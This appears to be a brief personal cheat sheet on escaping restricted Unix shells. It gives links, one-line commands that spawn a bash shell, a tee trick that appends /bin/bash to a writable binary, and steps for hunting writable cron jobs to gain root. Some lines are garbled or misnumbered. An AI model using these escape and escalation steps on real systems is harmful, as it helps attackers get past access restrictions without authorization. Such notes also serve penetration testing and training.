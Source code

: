 https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells

#### escaping restricted shells

http://securebean.blogspot.ca/2014/05/escaping-restricted-shell_3.html

#### attacking restricted shells

https://blog.netspi.com/attacking-restricted-linux-shells/

### escape shell commands

python -c 'import pty;pty.spawn("/bin/bash")'

echo os.system('/bin/bash')

/bin/sh -i

#### Go from rbash to bash

1.	find a file that you can write and execute to 

2.	find the tee file

3.	watch the quotes in the command below.

4.	echo '/bin/bash';|tee -a './bin/ping'

5.	echo the bin/bash shell into the ping tool and execute the ping tool

6.	basically you are appending the bin/bash to ping tool and executing

7.	cd /home

8.	now we are bash

#### try to root the server tricks

https://www.youtube.com/watch?v=SoUrcesP9ek

1.	we have to set the path for bash first

2.	export PATH=*dollar-sign*PATH:/usr/bin/

2.	no we need to search cron job, to see if anything I found is vulnerable

3.	cd /etc/cron.minutely/

4.	ls

5.	check all running cron jobs

6.	ls -ls file

7.	you need to write if not try other things

8.	cat file

9.	see if file is running other files

10.	check permissions on other files

10.	hopefully they are running as 777

